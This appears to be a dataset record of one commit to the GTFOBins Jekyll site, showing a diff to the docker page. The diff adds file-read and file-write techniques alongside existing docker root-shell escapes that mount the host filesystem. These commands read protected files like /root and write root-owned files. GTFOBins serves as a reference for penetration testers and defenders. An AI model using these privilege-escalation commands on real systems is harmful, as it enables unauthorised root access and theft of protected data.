

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file read and write as per #64 (temporary solution)

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -5,6 +5,20 @@ functions:
   shell:
     - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
       code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
+  file-write:
+    - description: Write any file by copying it to an existing container and back to the target destination on the host. The file will be owned by root.
+      code: |
+        CONTAINER_ID=existing-docker-container
+        echo "sensitive config" > /tmp/file.txt
+        sudo docker cp /tmp/file.txt $CONTAINER_ID:/tmp/file.txt
+        sudo docker cp $CONTAINER_ID:/tmp/file.txt /target/destination.txt
+  file-read:
+    - description: Read any file by copying it to an existing container and back to a new location on the host.
+      code: |
+        CONTAINER_ID=existing-docker-container
+        sudo docker cp /root/protected.txt $CONTAINER_ID:/tmp/file.txt
+        sudo docker cp $CONTAINER_ID:/tmp/file.txt /home/user/file.txt
+        cat /home/user/file.txt
   sudo:
     - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
       code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
